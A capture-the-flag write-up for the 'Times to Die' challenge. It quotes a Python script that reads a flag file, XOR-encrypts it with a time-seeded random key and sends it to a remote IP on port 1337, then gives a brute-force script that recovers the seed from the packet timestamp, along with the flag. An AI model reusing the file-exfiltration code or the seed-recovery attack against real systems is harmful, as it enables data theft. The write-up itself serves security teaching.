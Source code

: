 # Times to Die

## Description

We noticed some suspicious traffic on our network. We think an attacker may have hacked one of our workstations and exfiltrated our flag! We also found this strange python program that may have something to do with it.

## Source Code Analysis

The challenge comes with a packet capture file `traffic.pcapng` and the script used to transmit the flag over the captured network. 

`server.py`

```python
import sys
import socket
import random
from time import time

def xor(bytes1, bytes2):    
    return bytes(a ^ b for a, b in zip(bytes1, bytes2))

def pad(plaintext, length):
    pad_len = length - (len(plaintext)%length)
    return plaintext + bytes([pad_len]*pad_len)

def encrypt(plaintext):
    key = int(time()*2**16)
    random.seed(key)
    plaintext = pad(plaintext,4)
    blocks = []
    for i in range(0,len(plaintext),4):
        ct_block = xor(plaintext[i:i+4],random.randbytes(4))
        blocks.append(ct_block)
    ciphertext = b''.join(blocks)
    return ciphertext

def main():
    if len(sys.argv) < 2:
        print('Usage: server.py <ip>')
        return 1
    ip = sys.argv[1]

    with open('flag.txt','rb') as fil:
        flag = fil.read()
    assert flag.startswith(b'BCCTF{')
    flag_enc = encrypt(flag)

    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client.connect((ip, 1337))
    client.sendall(flag_enc)
    client.close()
    
    return 0

if __name__ == '__main__':
    sys.exit(main())
```

The above script encrypts the flag by performing a XOR of each byte with a key made of random bytes obtained from the seed `time()*2**16`, where `time()` returns the current time in seconds since the Unix epoch.
The encrypted flag is then sent to an unknown IP address at port 1337.

### Exploit

The main idea is to find the packet that contains the encrypted flag and bruteforce the decryption by trying with all possible seed values starting from the time the target TCP handshake was initiated.

The flag transmission is easily found by filtering with destination port `tcp.dstport == 1337`.    

![capture](./capture.png)

Once the encrypted flag and the transmission time is known, it is possible to attempt decryption by moving backward in time until the correct seed is found

`solve.py`
```python
from time import time
from datetime import datetime
import random
import pytz

enc_flag = bytes.fromhex("9d80c4df97fe91a0bb2867c78700c43c4eeb92770ea6ca6934bbcd5ffd40d548aba049344921e1db129e94a382f6678d")
captured_flag_timestamp = "2025-01-28 18:15:59.839446"
timestamp_obj = datetime.strptime(captured_flag_timestamp, "%Y-%m-%d %H:%M:%S.%f")
timestamp_obj_utc = timestamp_obj.replace(tzinfo=pytz.UTC)
starting_seed = timestamp_obj_utc.timestamp()
print(starting_seed)


def xor(bytes1, bytes2):
    return bytes(a ^ b for a, b in zip(bytes1, bytes2))

def decrypt(ciphertext, key):
    random.seed(key)  
    blocks = []
    for i in range(0, len(ciphertext), 4):
        pt_block = xor(ciphertext[i:i+4], random.randbytes(4))
        blocks.append(pt_block)
    plaintext = b"".join(blocks)
    return plaintext

def pad(plaintext, length):
    pad_len = length - (len(plaintext)%length)
    return plaintext + bytes([pad_len]*pad_len)

def encrypt(plaintext):
    key = int(time()*2**16)
    random.seed(key)
    plaintext = pad(plaintext,4)
    blocks = []
    for i in range(0,len(plaintext),4):
        ct_block = xor(plaintext[i:i+4],random.randbytes(4))
        blocks.append(ct_block)
    ciphertext = b''.join(blocks)
    return ciphertext

decrease = 0
while True:
    key = int((starting_seed - decrease)*2**16)  
    flag = decrypt(enc_flag, key)
    decrease += 0.000001  # (microseconds)
    if flag.startswith(b"BCCTF{"):
        print(f"Found flag: {flag}; timestamp: {starting_seed - decrease}") 
        break
```

```python 
Found flag: b'BCCTF{175_n07_5Ymb0lic_itS_jU57_Hum4n_n47ure}\x03\x03\x03'; timestamp: 1738088099.1539292
```


